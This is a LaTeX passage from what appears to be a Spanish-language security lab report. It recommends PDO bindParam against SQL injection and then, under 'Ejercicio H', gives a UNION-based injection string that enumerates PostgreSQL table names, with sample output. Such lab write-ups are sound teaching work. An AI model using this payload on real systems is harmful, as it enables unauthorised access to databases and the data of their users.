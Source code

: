 \documentclass{article}
\begin{document}
\begin{minipage}{\linewidth}
    \centering
    \captionsetup{type=figure}
    \caption{\textit{Login correcto}}
    \label{fig:fig1}
    \includegraphics[scale=0.3]{img/sql_inject1}
\end{minipage}
\medbreak
Se propone para evitar el ataque de tipo \textit{SQLInjection} utilizar las función de PDO \texttt{bindParam} que ejecuta una validación (escapando carácteres especiales de SQL) y evita el poder realizar esto. Se encuentra la solución propuesta en el fichero \texttt{xLoginInjectionRepaired.php}
\subsection{Ejercicio H: {\small Acceso indebido a información}}
\subsubsection{Hallar el nombre de las tablas}
Basta con introducir el siguiente texto:
\begin{lstlisting}
a' UNION SELECT relname from pg_class where '1'='1
\end{lstlisting}
Y se recibe una salida similar a esta:
\begin{lstlisting}
    pg_ts_parser_oid_index
    pg_conversion_oid_index
    pg_stat_user_indexes
    pg_ts_dict
    pg_amop
    pg_toast_1255_index
    pg_tablespace
    [ ... ]
    pg_language
    usage_privileges
    pg_toast_12214
    pg_transform
    pg_toast_2609
    pg_cursors
    transforms
    pg_class
    pg_statio_all_tables
    pg_ts_template
    sql_features
    sql_implementation_info
    pg_user_mapping_user_server_index
    pg_collation
    clientbets
    pg_tables
    pg_stat_archiver
    pg_extension_oid_index
    pg_largeobject
\end{lstlisting}
{\footnotesize Salida completa en \texttt{tablas.html}}
\end{document}
